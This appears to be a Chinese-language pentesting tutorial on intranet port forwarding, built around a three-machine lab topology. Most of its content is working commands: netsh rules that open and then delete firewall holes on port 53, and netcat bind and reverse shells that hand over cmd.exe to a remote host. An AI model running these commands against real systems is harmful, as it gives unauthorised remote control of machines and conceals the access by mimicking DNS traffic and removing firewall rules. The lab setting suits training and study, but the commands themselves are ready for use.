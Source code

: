 [TOC]


# 内网渗透
## 0） 工具
[netcat工具下载地址](https://eternallybored.org/misc/netcat/)

## 1） 端口转发

*拓扑结构：*

| 名字 | 公网/内网 | IP |
|--------|--------|--------|
|   Win7专业版     |   攻击机子     |192.168.44.129(假设为自己公网IP)
|   Windows2008     |   目标边界机子     |192.168.44.133(假设为目标公网IP)
|   Win7渗透专用     |   目标内网机子     |192.168.44.130 (假设为目标内网IP)




### 1.1 netsh
1. 正向连接

	```
Windows2008命令：↓
# 添加防火墙规则，允许外部来连接本地的 tcp 53 端口[入站允许]
Windows2008>netsh advfirewall firewall add rule name="nc bind shell" dir=in action=allow protocol=TCP localport=53
# -l 监听53端口，-e 创建shell
Windows2008>c:\>nc -lvp 53 -e cmd.exe
# 结束后删除防火墙规则
Windows2008>netsh advfirewall firewall delete rule name="nc bind shell" dir=in protocol=TCP localport=53
```
	```
Win7专业版命令：↓
# -n 连接Windows2008的53端口
ske7Plus>nc -nv 192.168.44.133 53
```
![Windows2008 监听53端口](.\imgs\nc\nc1.png)
![Win7专业版   连接53端口](.\imgs\nc\nc2.png)

2. 反向连接
	```
Win7专业版命令：↓
# 添加防火墙规则，允许 tcp 的 53 端口连入,然后再执行监听
ske7Plus>netsh firewall add portopening TCP 53 "nc reverse shell"
ske7Plus>nc -lvp 53
```
	```
Windows2008命令：↓
# 添加防火墙规则，允许本地的 tcp 53 端口主动往外连[出站允许]
Windows2008>netsh advfirewall firewall add rule name="nc reverse shell" dir=out action=allow protocol=TCP localport=53
# -n 连接目标ske7Plus的53端口，-e 创建shell
Windows2008>nc -nv 192.168.3.102 53 -e cmd.exe
# 结束后删除防火墙规则
Windows2008>netsh advfirewall firewall delete rule name="nc reverse shell" dir=out protocol=TCP localport=53
```
![Win7专业版   监听53端口](.\imgs\nc\nc3.png)
![Windows2008 连接53端口](.\imgs\nc\nc4.png)